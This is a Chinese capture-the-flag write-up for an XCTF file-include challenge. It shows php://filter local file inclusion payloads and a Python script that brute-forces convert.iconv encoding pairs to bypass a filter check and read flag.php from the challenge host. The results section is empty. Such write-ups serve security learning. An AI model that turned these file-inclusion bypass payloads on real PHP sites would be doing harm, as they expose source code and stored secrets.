



# 攻防世界file-include之伪协议绕过
- 关键词 php伪协议绕过
## 1.题目描述

直接尝试伪协议
`http://61.147.171.105:51435/?filename=php://filter/read=convert.base64-encode/resource=flag.php
`

发现不行，显然是check.php里面有校验
尝试找方法绕过

## 2.解题流程
百度filter绕过过滤的时候发现了一种"
转换过滤器"


## 3.php://filter的各种过滤器
- php://filter的各种过滤器 https://blog.csdn.net/qq_44657899/article/details/109300335


转换过滤器
```html
如同 string.* 过滤器，convert.* 过滤器的作用就和其名字一样。
转换过滤器是 PHP 5.0.0 添加的。对于指定过滤器的更多信息，请参考该函数的手册页。
https://www.php.net/manual/zh/filters.convert.php
在激活 iconv 的前提下可以使用 convert.iconv.* 压缩过滤器， 
等同于用 iconv() 处理所有的流数据。 该过滤器不支持参数，
但可使用输入/输出的编码名称，组成过滤器名称，
比如 convert.iconv.<input-encoding>.<output-encoding> 
或 convert.iconv.<input-encoding>/<output-encoding> 
（两种写法的语义都相同）。
```


常见的支持的字符编码有：
```python
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac（别名：MacJapanese）
SJIS-Mobile#DOCOMO（别名：SJIS-DOCOMO）
SJIS-Mobile#KDDI（别名：SJIS-KDDI）
SJIS-Mobile#SOFTBANK（别名：SJIS-SOFTBANK）
UTF-8-Mobile#DOCOMO（别名：UTF-8-DOCOMO）
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B（别名：UTF-8-KDDI）
UTF-8-Mobile#SOFTBANK（别名：UTF-8-SOFTBANK）
ISO-2022-JP-MOBILE#KDDI（别名：ISO-2022-JP-KDDI）
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES（别名：HTML）
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC（别名：CP949）
ISO-2022-KR
Windows-1251（别名：CP1251）
Windows-1252（别名：CP1252）
CP866（别名：IBM866）
KOI8-R*
KOI8-U*
ArmSCII-8（别名：ArmSCII8）
```

----
可以爆破一下，上才艺：
```python
import requests

in_encodings = [
    'UCS-4*',
    'UCS-4BE',
    'UCS-4LE*',
    'UCS-2',
    'UCS-2BE',
    'UCS-2LE',
    'UTF-32*',
    'UTF-32BE*',
    'UTF-32LE*',
    'UTF-16*',
    'UTF-16BE*',
    'UTF-16LE*',
    'UTF-7',
    'UTF7-IMAP',
    'UTF-8*',
    'ASCII*',
    'EUC-JP*',
    'SJIS*',
    'eucJP-win*',
    'SJIS-win*',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
    'UTF-8-Mobile#DOCOMO',
    'UTF-8-Mobile#KDDI-A',
    'UTF-8-Mobile#KDDI-B',
    'UTF-8-Mobile#SOFTBANK',
    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1*',
    'ISO-8859-2*',
    'ISO-8859-3*',
    'ISO-8859-4*',
    'ISO-8859-5*',
    'ISO-8859-6*',
    'ISO-8859-7*',
    'ISO-8859-8*',
    'ISO-8859-9*',
    'ISO-8859-10*',
    'ISO-8859-13*',
    'ISO-8859-14*',
    'ISO-8859-15*',
    'ISO-8859-16*',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN*',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW*',
    'CP950',
    'BIG-5*',
    'EUC-KR*',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R*',
    'KOI8-U*',
    'ArmSCII-8',
]

out_codings = in_encodings[:]

for inenc in in_encodings:
    for outenc in out_codings:
        url = 'http://61.147.171.105:51435/?filename=php://filter/convert.iconv.{}.{}/resource=flag.php'.format(inenc,outenc)
        res = requests.get(url)
        if "flag" in res.text:
            print("inenc is:{} , outenc is:{}",inenc,outenc)
            print(res.text)

```

结果为：


